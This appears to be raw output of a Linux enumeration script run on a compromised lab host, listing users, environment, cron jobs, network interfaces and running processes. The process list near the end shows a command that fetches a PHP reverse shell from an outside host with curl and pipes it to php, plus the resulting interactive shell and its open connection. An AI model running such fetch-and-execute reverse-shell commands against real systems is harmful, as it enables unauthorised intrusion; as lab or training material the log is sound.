[-] Accounts that have recently used sudo:
/home/jeanlucpicard/.sudo_as_admin_successful


[-] Are permissions on /home directories lax:
total 12K
drwxr-xr-x  3 root          root          4.0K Aug 25  2017 .
drwxr-xr-x 23 root          root          4.0K May 28 03:31 ..
drwxr-xr-x  4 jeanlucpicard jeanlucpicard 4.0K Oct 20  2017 jeanlucpicard


### ENVIRONMENTAL #######################################
[-] Environment information:
APACHE_LOG_DIR=/var/log/apache2
LANG=C
INVOCATION_ID=feb573ad7ae444e0bc90393c6ddfbd99
APACHE_LOCK_DIR=/var/lock/apache2
PWD=/
JOURNAL_STREAM=8:22418
APACHE_RUN_GROUP=www-data
APACHE_RUN_DIR=/var/run/apache2
APACHE_RUN_USER=www-data
SHELL=bash
APACHE_PID_FILE=/var/run/apache2/apache2.pid
SHLVL=2
LANGUAGE=en_GB:en
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env


[-] Path information:
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin


[-] Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
/usr/bin/screen
/usr/bin/tmux


[-] Current umask value:
0000
u=rwx,g=rwx,o=rwx


[-] umask value as specified in /etc/login.defs:
UMASK		022


[-] Password and storage information:
PASS_MAX_DAYS	99999
PASS_MIN_DAYS	0
PASS_WARN_AGE	7
ENCRYPT_METHOD SHA512


### JOBS/TASKS ##########################################
[-] Cron jobs:
-rw-r--r-- 1 root root  722 Apr  5  2016 /etc/crontab

/etc/cron.d:
total 24
drwxr-xr-x  2 root root 4096 Aug 25  2017 .
drwxr-xr-x 95 root root 4096 May 28 03:35 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rw-r--r--  1 root root  589 Jul 26  2016 mdadm
-rw-r--r--  1 root root  712 Jan  1  2017 php
-rw-r--r--  1 root root  191 Aug 25  2017 popularity-contest

/etc/cron.daily:
total 60
drwxr-xr-x  2 root root 4096 May 28 03:35 .
drwxr-xr-x 95 root root 4096 May 28 03:35 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x  1 root root  539 Dec  8  2016 apache2
-rwxr-xr-x  1 root root  376 Dec 14  2016 apport
-rwxr-xr-x  1 root root 1474 Apr  1  2017 apt-compat
-rwxr-xr-x  1 root root  355 Oct 25  2016 bsdmainutils
-rwxr-xr-x  1 root root 1597 Apr 25  2016 dpkg
-rwxr-xr-x  1 root root  372 Mar 22  2017 logrotate
-rwxr-xr-x  1 root root 1065 Dec 13  2016 man-db
-rwxr-xr-x  1 root root  539 Jul 26  2016 mdadm
-rwxr-xr-x  1 root root  435 Nov 18  2014 mlocate
-rwxr-xr-x  1 root root  249 Nov 19  2014 passwd
-rwxr-xr-x  1 root root 3449 Feb 26  2016 popularity-contest
-rwxr-xr-x  1 root root  214 Jul 12  2013 update-notifier-common

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Aug 25  2017 .
drwxr-xr-x 95 root root 4096 May 28 03:35 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x  2 root root 4096 Aug 25  2017 .
drwxr-xr-x 95 root root 4096 May 28 03:35 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder

/etc/cron.weekly:
total 24
drwxr-xr-x  2 root root 4096 Aug 25  2017 .
drwxr-xr-x 95 root root 4096 May 28 03:35 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x  1 root root   86 Nov 16  2016 fstrim
-rwxr-xr-x  1 root root  723 Dec 13  2016 man-db
-rwxr-xr-x  1 root root  211 Jul 12  2013 update-notifier-common


[-] Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#


### NETWORKING  ##########################################
[-] Network and IP info:
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 0.0.0.0
        inet6 fe80::42:9bff:fe22:4567  prefixlen 64  scopeid 0x20<link>
        ether 02:42:9b:22:45:67  txqueuelen 0  (Ethernet)
        RX packets 651573  bytes 175867691 (175.8 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 792685  bytes 70896113 (70.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.61  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:fe8f:702  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:fe8f:702  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:8f:07:02  txqueuelen 1000  (Ethernet)
        RX packets 1936118  bytes 188840789 (188.8 MB)
        RX errors 0  dropped 63  overruns 0  frame 0
        TX packets 1674008  bytes 459414357 (459.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 26969  bytes 2020484 (2.0 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 26969  bytes 2020484 (2.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth08d8094: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::20f6:53ff:feab:7267  prefixlen 64  scopeid 0x20<link>
        ether 22:f6:53:ab:72:67  txqueuelen 0  (Ethernet)
        RX packets 1224654  bytes 295988545 (295.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1312742  bytes 862216341 (862.2 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth39d9b7b: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::cc6a:9cff:feab:448f  prefixlen 64  scopeid 0x20<link>
        ether ce:6a:9c:ab:44:8f  txqueuelen 0  (Ethernet)
        RX packets 1238788  bytes 910479755 (910.4 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1166129  bytes 217123712 (217.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth76de2e2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::405:beff:fe91:4d78  prefixlen 64  scopeid 0x20<link>
        ether 06:05:be:91:4d:78  txqueuelen 0  (Ethernet)
        RX packets 592863  bytes 106111394 (106.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 718975  bytes 119177323 (119.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0


[-] ARP history:
? (10.10.10.2) at 00:50:56:8f:64:fe [ether] on ens33
? (172.17.0.4) at 02:42:ac:11:00:04 [ether] on docker0
? (172.17.0.3) at 02:42:ac:11:00:03 [ether] on docker0


[-] Nameserver(s):
# run "systemd-resolve --status" to see details about the actual nameservers.
nameserver 8.8.8.8
nameserver 127.0.0.53


[-] Nameserver(s):
Global
         DNS Servers: 8.8.8.8
          DNSSEC NTA: 10.in-addr.arpa
                      16.172.in-addr.arpa
                      168.192.in-addr.arpa
                      17.172.in-addr.arpa
                      18.172.in-addr.arpa
                      19.172.in-addr.arpa
                      20.172.in-addr.arpa
                      21.172.in-addr.arpa
                      22.172.in-addr.arpa
                      23.172.in-addr.arpa
                      24.172.in-addr.arpa
                      25.172.in-addr.arpa
                      26.172.in-addr.arpa
                      27.172.in-addr.arpa
                      28.172.in-addr.arpa
                      29.172.in-addr.arpa
                      30.172.in-addr.arpa
                      31.172.in-addr.arpa
                      corp
                      d.f.ip6.arpa
                      home
                      internal
                      intranet
                      lan
                      local
                      private
                      test

Link 9 (veth08d8094)
      Current Scopes: LLMNR/IPv6
       LLMNR setting: yes
MulticastDNS setting: no
      DNSSEC setting: no
    DNSSEC supported: no

Link 7 (veth76de2e2)
      Current Scopes: LLMNR/IPv6
       LLMNR setting: yes
MulticastDNS setting: no
      DNSSEC setting: no
    DNSSEC supported: no

Link 5 (veth39d9b7b)
      Current Scopes: LLMNR/IPv6
       LLMNR setting: yes
MulticastDNS setting: no
      DNSSEC setting: no
    DNSSEC supported: no

Link 3 (docker0)
      Current Scopes: LLMNR/IPv4 LLMNR/IPv6
       LLMNR setting: yes
MulticastDNS setting: no
      DNSSEC setting: no
    DNSSEC supported: no

Link 2 (ens33)
      Current Scopes: LLMNR/IPv4 LLMNR/IPv6
       LLMNR setting: yes
MulticastDNS setting: no
      DNSSEC setting: no
    DNSSEC supported: no


[-] Default route:
default         10.10.10.2      0.0.0.0         UG    0      0        0 ens33


[-] Listening TCP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:5355            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:32812           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0    116 10.10.10.61:36336       10.10.14.16:6666        ESTABLISHED 73117/sh
tcp6       0      0 :::5355                 :::*                    LISTEN      -
tcp6       0      0 :::8080                 :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::443                  :::*                    LISTEN      -
tcp6      32      0 10.10.10.61:443         10.10.14.16:51312       CLOSE_WAIT  -


[-] Listening UDP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
udp        0      0 10.10.10.61:54669       8.8.8.8:53              ESTABLISHED -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 10.10.10.61:43195       8.8.8.8:53              ESTABLISHED -
udp        0      0 0.0.0.0:5355            0.0.0.0:*                           -
udp6       0      0 :::5355                 :::*                                -


### SERVICES #############################################
[-] Running processes:
USER        PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root          1  0.0  0.3 205072  7416 ?        Ss   May28   0:07 /lib/systemd/systemd --system --deserialize 26
root          2  0.0  0.0      0     0 ?        S    May28   0:00 [kthreadd]
root          4  0.0  0.0      0     0 ?        S<   May28   0:00 [kworker/0:0H]
root          6  0.0  0.0      0     0 ?        S    May28   0:03 [ksoftirqd/0]
root          7  0.0  0.0      0     0 ?        S    May28   0:40 [rcu_sched]
root          8  0.0  0.0      0     0 ?        S    May28   0:00 [rcu_bh]
root          9  0.0  0.0      0     0 ?        S    May28   0:00 [migration/0]
root         10  0.0  0.0      0     0 ?        S<   May28   0:00 [lru-add-drain]
root         11  0.0  0.0      0     0 ?        S    May28   0:00 [watchdog/0]
root         12  0.0  0.0      0     0 ?        S    May28   0:00 [cpuhp/0]
root         13  0.0  0.0      0     0 ?        S    May28   0:00 [cpuhp/1]
root         14  0.0  0.0      0     0 ?        S    May28   0:00 [watchdog/1]
root         15  0.0  0.0      0     0 ?        S    May28   0:00 [migration/1]
root         16  0.0  0.0      0     0 ?        S    May28   1:10 [ksoftirqd/1]
root         18  0.0  0.0      0     0 ?        S<   May28   0:00 [kworker/1:0H]
root         19  0.0  0.0      0     0 ?        S    May28   0:00 [kdevtmpfs]
root         20  0.0  0.0      0     0 ?        S<   May28   0:00 [netns]
root         22  0.0  0.0      0     0 ?        S    May28   0:00 [khungtaskd]
root         23  0.0  0.0      0     0 ?        S    May28   0:00 [oom_reaper]
root         24  0.0  0.0      0     0 ?        S<   May28   0:00 [writeback]
root         25  0.0  0.0      0     0 ?        S    May28   0:00 [kcompactd0]
root         26  0.0  0.0      0     0 ?        SN   May28   0:00 [ksmd]
root         27  0.0  0.0      0     0 ?        SN   May28   0:01 [khugepaged]
root         28  0.0  0.0      0     0 ?        S<   May28   0:00 [crypto]
root         29  0.0  0.0      0     0 ?        S<   May28   0:00 [kintegrityd]
root         30  0.0  0.0      0     0 ?        S<   May28   0:00 [bioset]
root         31  0.0  0.0      0     0 ?        S<   May28   0:00 [kblockd]
root         32  0.0  0.0      0     0 ?        S<   May28   0:00 [ata_sff]
root         33  0.0  0.0      0     0 ?        S<   May28   0:00 [md]
root         34  0.0  0.0      0     0 ?        S<   May28   0:00 [devfreq_wq]
root         35  0.0  0.0      0     0 ?        S<   May28   0:00 [watchdogd]
root         38  0.0  0.0      0     0 ?        S    May28   0:00 [kauditd]
root         39  0.0  0.0      0     0 ?        S    May28   0:00 [kswapd0]
root         40  0.0  0.0      0     0 ?        S<   May28   0:00 [vmstat]
root         41  0.0  0.0      0     0 ?        S<   May28   0:00 [bioset]
root         42  0.0  0.0      0     0 ?        S    May28   0:00 [ecryptfs-kthrea]
root         82  0.0  0.0      0     0 ?        S<   May28   0:00 [kthrotld]
root         83  0.0  0.0      0     0 ?        S<   May28   0:00 [acpi_thermal_pm]
root         84  0.0  0.0      0     0 ?        S<   May28   0:00 [bioset]
root         85  0.0  0.0      0     0 ?        S<   May28   0:00 [bioset]
root         86  0.0  0.0      0     0 ?        S<   May28   0:00 [bioset]
root         87  0.0  0.0      0     0 ?        S<   May28   0:00 [bioset]
root         88  0.0  0.0      0     0 ?        S<   May28   0:00 [bioset]
root         89  0.0  0.0      0     0 ?        S<   May28   0:00 [bioset]
root         90  0.0  0.0      0     0 ?        S<   May28   0:00 [bioset]
root         91  0.0  0.0      0     0 ?        S<   May28   0:00 [bioset]
root         92  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_0]
root         93  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_0]
root         94  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_1]
root         95  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_1]
root        102  0.0  0.0      0     0 ?        S<   May28   0:00 [ipv6_addrconf]
root        124  0.0  0.0      0     0 ?        S<   May28   0:00 [charger_manager]
root        171  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_2]
root        172  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_3]
root        173  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_2]
root        174  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_3]
root        175  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_4]
root        176  0.0  0.0      0     0 ?        S<   May28   0:00 [vmw_pvscsi_wq_3]
root        177  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_4]
root        178  0.0  0.0      0     0 ?        S<   May28   0:00 [bioset]
root        179  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_5]
root        180  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_5]
root        182  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_6]
root        184  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_6]
root        187  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_7]
root        189  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_7]
root        191  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_8]
root        197  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_8]
root        199  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_9]
root        201  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_9]
root        204  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_10]
root        206  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_10]
root        209  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_11]
root        210  0.0  0.0      0     0 ?        S<   May28   0:00 [ttm_swap]
root        211  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_11]
root        213  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_12]
root        214  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_12]
root        218  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_13]
root        224  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_13]
root        227  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_14]
root        229  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_14]
root        231  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_15]
root        233  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_15]
root        237  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_16]
root        239  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_16]
root        244  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_17]
root        246  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_17]
root        248  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_18]
root        250  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_18]
root        257  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_19]
root        259  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_19]
root        261  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_20]
root        262  0.0  0.0      0     0 ?        S<   May28   1:10 [kworker/0:1H]
root        263  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_20]
root        264  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_21]
root        265  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_21]
root        266  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_22]
root        267  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_22]
root        268  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_23]
root        269  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_23]
root        270  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_24]
root        271  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_24]
root        272  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_25]
root        273  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_25]
root        274  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_26]
root        275  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_26]
root        276  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_27]
root        278  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_27]
root        279  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_28]
root        280  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_28]
root        281  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_29]
root        282  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_29]
root        283  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_30]
root        284  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_30]
root        285  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_31]
root        286  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_31]
root        287  0.0  0.0      0     0 ?        S    May28   0:00 [scsi_eh_32]
root        288  0.0  0.0      0     0 ?        S<   May28   0:00 [scsi_tmf_32]
root        289  0.0  0.0      0     0 ?        S<   May28   1:00 [kworker/1:1H]
root        318  0.0  0.0      0     0 ?        S<   May28   0:00 [bioset]
root        321  0.0  0.0      0     0 ?        S<   May28   0:00 [kdmflush]
root        322  0.0  0.0      0     0 ?        S<   May28   0:00 [bioset]
root        325  0.0  0.0      0     0 ?        S<   May28   0:00 [kdmflush]
root        327  0.0  0.0      0     0 ?        S<   May28   0:00 [bioset]
root        399  0.0  0.0      0     0 ?        S<   May28   0:00 [raid5wq]
root        434  0.0  0.0      0     0 ?        S<   May28   0:00 [bioset]
root        455  0.0  0.0      0     0 ?        S    May28   0:54 [jbd2/dm-0-8]
root        456  0.0  0.0      0     0 ?        S<   May28   0:00 [ext4-rsv-conver]
root        510  0.0  0.3  59596  8056 ?        Ss   May28   0:09 /lib/systemd/systemd-journald
root        513  0.0  0.0 102984  1600 ?        Ss   May28   0:00 /sbin/lvmetad -f
root        515  0.0  0.0      0     0 ?        S<   May28   0:00 [iscsi_eh]
root        521  0.0  0.0      0     0 ?        S<   May28   0:00 [kworker/u257:0]
root        522  0.0  0.0      0     0 ?        S<   May28   0:00 [ib-comp-wq]
root        523  0.0  0.0      0     0 ?        S<   May28   0:00 [ib_addr]
root        524  0.0  0.0      0     0 ?        S<   May28   0:00 [ib_mcast]
root        525  0.0  0.0      0     0 ?        S<   May28   0:00 [ib_nl_sa_wq]
root        528  0.0  0.0      0     0 ?        S<   May28   0:00 [ib_cm]
root        529  0.0  0.0      0     0 ?        S<   May28   0:00 [iw_cm_wq]
root        530  0.0  0.0      0     0 ?        S<   May28   0:00 [rdma_cm]
root        746  0.0  0.0      0     0 ?        S<   May28   0:00 [nfit]
root        830  0.0  0.0      0     0 ?        S<   May28   0:00 [edac-poller]
root       1040  0.0  0.2 531644  4244 ?        Ssl  May28   0:01 /usr/bin/lxcfs /var/lib/lxcfs/
message+   1042  0.0  0.1  45448  3944 ?        Ss   May28   0:06 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
daemon     1101  0.0  0.1  28144  2100 ?        Ss   May28   0:00 /usr/sbin/atd -f
root       1102  0.0  0.0   4388  1304 ?        Ss   May28   0:00 /usr/sbin/acpid
syslog     1103  0.0  0.1 256412  3000 ?        Ssl  May28   0:01 /usr/sbin/rsyslogd -n
root       1106  0.0  0.3 187920  7852 ?        Ssl  May28   2:09 /usr/bin/vmtoolsd
root       1115  0.0  0.1  31120  2960 ?        Ss   May28   0:00 /usr/sbin/cron -f
root       1116  0.0  0.2  38108  4344 ?        Ss   May28   0:01 /lib/systemd/systemd-logind
root       1117  0.0  0.3 285108  6320 ?        Ssl  May28   0:03 /usr/lib/accountsservice/accounts-daemon
root       1121  0.0  0.8 346840 16748 ?        Ssl  May28   0:02 /usr/lib/snapd/snapd
root       1122  0.0  0.3  85352  6756 ?        Ss   May28   0:00 /usr/bin/VGAuthService
root       1310  0.0  0.2 286388  6024 ?        Ssl  May28   0:02 /usr/lib/policykit-1/polkitd --no-debug
root       1417  0.0  0.2  70012  5224 ?        Ss   May28   0:00 /usr/sbin/sshd -D
root       1420  0.1  2.1 553920 43324 ?        Ssl  May28   3:36 /usr/bin/dockerd -H fd://
root       1469  0.0  0.0   5216   148 ?        Ss   May28   0:02 /sbin/iscsid
root       1474  0.0  0.1   5716  3520 ?        S<Ls May28   0:17 /sbin/iscsid
root       1490  0.0  0.6 259840 13440 ?        Ssl  May28   2:20 docker-containerd -l unix:///var/run/docker/libcontainerd/docker-containerd.sock --metrics-interval=0 --start-timeout 2m --state-dir /var/run/docker/libcontainerd/containerd --shim docker-containerd-shim --runtime docker-runc
root       1569  0.0  0.0  15996  1728 tty1     Ss+  May28   0:00 /sbin/agetty --noclear tty1 linux
root       1587  0.0  0.1  19604  2052 ?        Ss   May28   0:13 /usr/sbin/irqbalance --pid=/var/run/irqbalance.pid
root       1632  0.0  0.0  15044  1864 ?        Ss   May28   0:00 /usr/sbin/xinetd -pidfile /run/xinetd.pid -stayalive -inetd_compat -inetd_ipv6
root       1635  0.0  1.3 256268 26592 ?        Ss   May28   0:09 /usr/sbin/apache2 -k start
root       1858  0.0  0.2 150240  4684 ?        Sl   May28   0:00 docker-containerd-shim 15af95635b7d44358a2146307d97820e20c23e3352ff0d3868bf05cbc7f42c0f /var/run/docker/libcontainerd/15af95635b7d44358a2146307d97820e20c23e3352ff0d3868bf05cbc7f42c0f docker-runc
999        1876  0.4 15.0 1613136 304744 ?      Ssl  May28  15:35 mysqld
root       2052  0.0  0.1  59060  2492 ?        Sl   May28   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 80 -container-ip 172.17.0.3 -container-port 80
root       2065  0.0  0.1  50864  2788 ?        Sl   May28   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 8080 -container-ip 172.17.0.4 -container-port 80
root       2074  0.0  0.1 151296  3052 ?        Sl   May28   0:12 docker-containerd-shim b8319d86d21e270e6fae358b1ea3cb2de432757b36ec80245ae81a91f0c1bb50 /var/run/docker/libcontainerd/b8319d86d21e270e6fae358b1ea3cb2de432757b36ec80245ae81a91f0c1bb50 docker-runc
root       2075  0.0  0.2 272860  5088 ?        Sl   May28   0:12 docker-containerd-shim a7018bfdc4541f0cda3a574da2ca025d0079d958ca559d64a1419982c3382774 /var/run/docker/libcontainerd/a7018bfdc4541f0cda3a574da2ca025d0079d958ca559d64a1419982c3382774 docker-runc
root       2109  0.0  1.5 315076 30792 ?        Ss   May28   0:07 apache2 -DFOREGROUND
root       2110  0.0  0.9 186364 18848 ?        Ss   May28   0:07 apache2 -DFOREGROUND
root      12586  0.0  0.0      0     0 ?        S<   May28   0:00 [bioset]
root      12590  0.0  0.0      0     0 ?        S<   May28   0:00 [xfsalloc]
root      12591  0.0  0.0      0     0 ?        S<   May28   0:00 [xfs_mru_cache]
root      12602  0.0  0.0      0     0 ?        S    May28   0:00 [jfsIO]
root      12603  0.0  0.0      0     0 ?        S    May28   0:00 [jfsCommit]
root      12604  0.0  0.0      0     0 ?        S    May28   0:00 [jfsCommit]
root      12605  0.0  0.0      0     0 ?        S    May28   0:00 [jfsSync]
root      12771  0.0  0.1  45868  3628 ?        Ss   May28   0:01 /lib/systemd/systemd-udevd
systemd+  12908  0.0  0.2  49904  5128 ?        Ss   May28   0:15 /lib/systemd/systemd-resolved
systemd+  12920  0.0  0.3 123508  6240 ?        Ssl  May28   0:03 /lib/systemd/systemd-timesyncd
www-data  72029  0.3  0.9 192016 18592 ?        S    06:29   0:24 apache2 -DFOREGROUND
www-data  72107  0.4  1.0 193780 20588 ?        S    06:31   0:24 apache2 -DFOREGROUND
www-data  72202  0.0  0.7 256556 14724 ?        S    06:32   0:00 /usr/sbin/apache2 -k start
www-data  72205  0.0  0.5 256492 11164 ?        S    06:32   0:00 /usr/sbin/apache2 -k start
www-data  72218  0.2  0.8 191504 17944 ?        S    06:32   0:16 apache2 -DFOREGROUND
www-data  72229  0.0  2.2 397868 46332 ?        S    06:33   0:01 apache2 -DFOREGROUND
www-data  72332  0.1  1.0 193784 20496 ?        S    06:34   0:11 apache2 -DFOREGROUND
www-data  72353  0.1  0.8 191636 17792 ?        S    06:34   0:10 apache2 -DFOREGROUND
www-data  72368  0.1  1.0 193768 20876 ?        S    06:34   0:07 apache2 -DFOREGROUND
www-data  72390  0.0  0.5 256492 11224 ?        S    06:35   0:00 /usr/sbin/apache2 -k start
www-data  72399  0.0  2.2 398308 45264 ?        S    06:35   0:00 apache2 -DFOREGROUND
www-data  72406  0.0  2.2 397744 46236 ?        S    06:35   0:00 apache2 -DFOREGROUND
www-data  72451  0.0  0.5 256492 11516 ?        S    06:35   0:00 /usr/sbin/apache2 -k start
www-data  72460  0.0  0.9 191728 18688 ?        S    06:36   0:04 apache2 -DFOREGROUND
www-data  72465  0.1  1.1 269756 24096 ?        S    06:36   0:09 apache2 -DFOREGROUND
www-data  72471  0.0  1.0 193968 21116 ?        S    06:36   0:05 apache2 -DFOREGROUND
www-data  72484  0.0  2.0 322212 42180 ?        S    06:36   0:00 apache2 -DFOREGROUND
www-data  72499  0.0  2.2 397872 45264 ?        S    06:36   0:00 apache2 -DFOREGROUND
www-data  72523  0.0  2.3 473228 46716 ?        S    06:37   0:01 apache2 -DFOREGROUND
www-data  72524  0.0  0.9 193792 20216 ?        S    06:37   0:02 apache2 -DFOREGROUND
www-data  72536  0.0  0.5 256492 11224 ?        S    06:37   0:00 /usr/sbin/apache2 -k start
www-data  72541  0.0  0.5 256492 11312 ?        S    06:37   0:00 /usr/sbin/apache2 -k start
www-data  72544  0.0  2.0 394812 41880 ?        S    06:37   0:00 apache2 -DFOREGROUND
www-data  72557  0.0  0.5 256492 10864 ?        S    06:37   0:00 /usr/sbin/apache2 -k start
www-data  72564  0.0  2.2 397940 45152 ?        S    06:38   0:00 apache2 -DFOREGROUND
www-data  72574  0.0  0.5 256484 10904 ?        S    06:38   0:00 /usr/sbin/apache2 -k start
www-data  72575  0.0  0.4 256492  9480 ?        S    06:38   0:00 /usr/sbin/apache2 -k start
www-data  72595  0.0  2.2 397888 45276 ?        S    06:38   0:00 apache2 -DFOREGROUND
www-data  72598  0.0  2.2 398288 45376 ?        S    06:38   0:00 apache2 -DFOREGROUND
www-data  72628  0.0  0.5 256928 10928 ?        S    06:38   0:00 /usr/sbin/apache2 -k start
root      72811  0.0  0.0      0     0 ?        S    06:39   0:00 [kworker/0:1]
www-data  72860  0.0  0.0   4336   728 ?        S    06:57   0:00 sh -c curl http://10.10.14.16:8000/php-reverse-shell.php|php
www-data  72862  0.0  1.3 253140 27828 ?        S    06:57   0:00 php
www-data  72863  0.0  0.0   4336   728 ?        S    06:57   0:00 sh -c uname -a; w; id; /bin/sh -i
www-data  72867  0.0  0.0   4336  1548 ?        S    06:57   0:00 /bin/sh -i
